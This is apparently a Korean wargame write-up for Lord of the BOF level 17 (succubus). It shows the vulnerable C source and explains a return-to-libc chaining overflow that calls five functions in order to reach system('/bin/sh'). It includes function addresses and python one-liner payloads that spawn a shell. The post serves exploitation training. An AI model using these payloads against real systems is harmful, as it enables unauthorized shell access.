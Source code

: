 ```yaml
---
title:  "[LOB] level 17: zombie_assassin >> succubus "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-28 08:06:33

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 17

**zombie_assssin / no place to hide**

succubus.c 코드 읽기  
```c
/*

        The Lord of the BOF : The Fellowship of the BOF
        - succubus
        - calling functions continuously
*/

#include <stdio.h>
#include <stdlib.h>
#include <dumpcode.h>

// the inspector
int check = 0;

void MO(char *cmd)
{
        if(check != 4)
                exit(0);

        printf("welcome to the MO!\n");

        // olleh!
        system(cmd);
}

void YUT(void)
{
        if(check != 3)
                exit(0);

        printf("welcome to the YUT!\n");
        check = 4;
}

void GUL(void)
{
        if(check != 2)
                exit(0);

        printf("welcome to the GUL!\n");
        check = 3;
}

void GYE(void)
{
        if(check != 1)
                exit(0);

        printf("welcome to the GYE!\n");
        check = 2;
}

void DO(void)
{
        printf("welcome to the DO!\n");
        check = 1;
}

main(int argc, char *argv[])

{
        char buffer[40];
        char *addr;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // you cannot use library
        if(strchr(argv[1], '\x40')){
                printf("You cannot use library\n");
                exit(0);
        }

        // check address
        addr = (char *)&DO;
        if(memcmp(argv[1]+44, &addr, 4) != 0){
                printf("You must fall in love with DO\n");
                exit(0);
        }

        // overflow!
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // stack destroyer
        // 100 : extra space for copied argv[1]
        memset(buffer, 0, 44);
        memset(buffer+48+100, 0, 0xbfffffff - (int)(buffer+48+100));

        // LD_* eraser
        // 40 : extra space for memset function
        memset(buffer-3000, 0, 3000-40);
}
```
길다 길어  

1. 매개변수 최소 1개 (argv error)  
2. library영역 사용불가 (you cannot use library)
3. ret부분은 DO의 주소 (you must fall in love with DO)
4. ret영역과 그 뒤를 제외한 stack 사용 불가능 (stack destroyer)
5. LD_* 환경변수 사용 불가능 (LD_* eraser)

도 개 걸 윷 모 함수에 도달하면서 check를 만족 시키고 모 함수에서 쉘을 띄우면되는것 같다  
이 문제는 rtl chaining 을 사용한다

페이로드 구상도:  
>dummy[44]+&DO()[4]+&GYE()[4]+&GUL()[4]+&YUT()[4]+&MO()[4]+dummy[4]+&/bin/sh+"/bin/sh"

함수의 주소들  
![image](https://user-images.githubusercontent.com/69203345/147542147-89344c5d-7603-4ce8-8fd7-06af2c83727f.png)  
gdb를 사용해서도 알수 있다  
![image](https://user-images.githubusercontent.com/69203345/147542345-efdf533e-46e5-4dcd-8924-32d129ddc249.png)

DO : 0x080487ec
GYE : 0x080487bc
GUL : 0x0804878c
YUT : 0x0804875c
MO : 0x08048724

/bin/sh주소  
>\`python -c 'print "D"\*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"D"*4+"AAAA"+"/bin/sh"'`

![image](https://user-images.githubusercontent.com/69203345/147543133-21a19f64-4a69-4e16-bcb1-d7dee200c50a.png)  
/bin/sh 주소: 0xbffffaa8

페이로드:  
>\`python -c 'print "A"\*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"D"*4+"\xa8\xfa\xff\xbf"+"/bin/sh"'`

![image](https://user-images.githubusercontent.com/69203345/147543568-929a7fe2-0df9-4705-9629-0a87a0ef9e64.png)